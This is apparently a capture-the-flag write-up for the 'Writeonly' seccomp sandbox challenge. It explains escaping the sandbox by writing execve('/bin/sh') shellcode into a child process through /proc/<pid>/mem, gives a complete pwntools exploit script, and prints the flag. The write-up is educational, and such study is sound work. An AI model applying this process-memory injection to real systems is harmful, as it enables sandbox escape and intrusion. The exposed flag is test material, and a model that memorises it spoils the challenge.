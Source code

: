 # Writeonly

## Sandbox - Easy

Statically linked binary - it mmaps a RWX region, reads the length of shellcode from us, then reads that much data from stdin into the mmaped region. It then installs some strict seccomp and executes our shellcode. The goal is to read a file - /home/user/flag. However. read is BANNED. In fact, this seccomp is a whitelist not a blacklist, and few useful things are allowed. For our purposes, we'll use open, lseek and write.

First, the binary forks. The child process does some sort of loop in which it continuously reads 4 bytes out of /home/user/flag and checks it against `CTF{`.The parent reads the shellcode, installs seccomp and runs the shellcode. Since the seccomp is done after forking, the child does not inherit seccomp. This means we can begin to hijack the memory of the child from the parent in our shellcode, and force the child to do things that we cannot. The binary prints the PID of the child, so we can use `/proc/<pid>/mem`. 1. Build `"/proc/<pid>/mem"` on the stack using push and mov 2. `open` this file 3. `lseek` it so that we can write to the `read` function of the child process 4. Build shell popping shellcode on the stack 5. `write` shell popping shellcode to the `read()` function 6. To prevent the parent process exiting before the shell has time to pop, use `jmp $` to continually jump to the current RIP, keeping it alive 7. This works, and a shell is popped. From there, we cat flag to get the flag.

```python
from pwn import *
context.arch = 'amd64'
e = ELF("./chal")
p = e.process() if args.LOCAL else remote('writeonly.2020.ctfcompetition.com', 1337)
p.recvuntil("[DEBUG] child pid: ")
pid = int(p.recvline())
p.clean()
filename = f"/proc/{pid}/mem".encode()
filename = filename.ljust(16,b'\x00')
code = ""
for i in range(0,len(filename),8):
    num = hex(u64(filename[i:i+8]))
    code = f"mov rbx,{num} ; push rbx ; " + code
code += "mov rbx,rsp ; mov rdi,rbx ; mov rax,2 ; mov rsi,0x2 ; syscall ; mov r9,rax ; mov rdi,rax ; mov rsi, 0x44fce8 ; mov rdx,0 ; mov rax,0x8 ; syscall; " 
malcode = b"/bin/sh\x00" + asm("mov rdi, 0x44fce8 ; mov rsi,0 ; mov rdx,0 ; mov rax,0x3b ; syscall") 
malcode = malcode.ljust(40,b'\x00')
newcode = "" 
for i in range(0,len(malcode),8):
    num = hex(u64(malcode[i:i+8]))
    newcode = f"mov rbx,{num} ; push rbx ; " + newcode
code += newcode
code += "mov rdi,r9 ; mov rsi,rsp ; mov rdx,0x28 ; mov rax,0x1 ; syscall ; jmp $"
print(code)
shellcode = asm(code)
p.sendline(str(len(shellcode)))
p.sendline(shellcode)
p.interactive()
```

### CTF{why\_read\_when\_you\_can\_write}

